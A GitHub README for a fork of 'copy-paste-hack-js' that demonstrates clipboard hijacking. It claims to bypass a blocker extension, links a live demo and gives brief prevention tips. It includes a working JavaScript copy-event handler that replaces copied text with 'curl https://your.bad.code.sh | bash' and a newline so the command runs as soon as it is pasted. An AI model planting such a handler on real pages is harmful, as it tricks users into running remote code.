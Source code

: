 # This fork bypasses [this **Chrome Extension**](https://chrome.google.com/webstore/detail/copy-paste-hack-blocker/fkfnmcncicigjajpfdgpkjohbondnkld).
# copy-paste-hack-js
During their job, developers often copy and paste code from the Internet from sources like Stackowerflow and other websites.  
I have found an **exploit**, with just some lines of JavaScript code, that can alter the copy-paste feature of any browser and make you paste (and execute) a different kind of code.

A running **demo** based on the content of this repository can be found here:  
[**TRY IT NOW**](https://meblum.github.io/copy-paste-hack-js/)

## How it works behind the scenes
Using plain JavaScript we detect every time there is a "copy" event on the text the user needs to copy.
When it happens, we set the clipboard content of the user with a different code, as we wish.
We also add a "/n" to simulate the Enter key and execute the code right away.

```javascript
document.getElementById('copyme').addEventListener(
    'copy', function(e){
        e.clipboardData.setData('text/plain',
        'curl https://your.bad.code.sh | bash\n');
        e.preventDefault();
    }
)
```
## How to prevent it from happening
- Always copy code from trusted sources and websites
- Always check the code and if you can't understand it, don't run it
- Some modern terminals like Windows Terminal display a warning message whenever you are trying to paste a multiline code (like the one in this exploit) and it will show up the code on the screen before getting executed. Just make sure to not ignore those helpful warnings. 
